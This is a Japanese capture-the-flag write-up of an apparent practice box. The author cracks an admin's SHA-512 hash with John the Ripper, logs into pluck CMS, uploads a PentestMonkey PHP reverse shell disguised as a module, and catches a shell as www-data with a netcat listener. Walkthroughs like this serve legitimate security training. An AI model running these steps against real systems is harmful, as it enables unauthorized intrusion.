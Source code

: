 このサーバーは、3000番からアクセスできる。
![[Pasted image 20250102124547.png]]
johnで解析する。
ハッシュのパスワードが「iloveyou1」であることがわかった。
```sh
└──╼ [★]$ echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hashes.txt

└──╼ [★]$ john --format=raw-sha512 hashes.txt
Created directory: /home/snowyowl644/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
iloveyou1        (?)     
1g 0:00:00:00 DONE 2/3 (2025-01-01 21:58) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

sshでadmin/iloveyou1でログインしたがログインできない。
まず、pluck CMSにadmin/iloveyou1でログイン。
ユーザーを確認する。


---

# Foothold

記事を書いているMr.Greenというアカウントがあるのかと思ったけど、無さそう。
リバースシェルを[]moduleにアップロード、インストールして、リバースシェルを確立する。
正しく動いているときは、特にリバースシェルに明示的にアクセスしないで、勝手にリバースシェルが確立される。

リバースシェルは、[https://www.revshells.com/]を使用して、PHP PentestMonkeyを使う。
注意点として、.zipと.phpの前の名前は同じにしないと正しくインストールされないぽい。
```bash
nano shell.php
zip shell.zip shell.php
```

他のタブでリバースを待ち受ける。
```bash
sudo nc -lvnp <PORT>
```

リバースシェルが確立されて、whoamiをすると、Apache サーバーの Web 管理者であるwww-dataであることがわかる。
```bash
$ whoami
www-data
```

---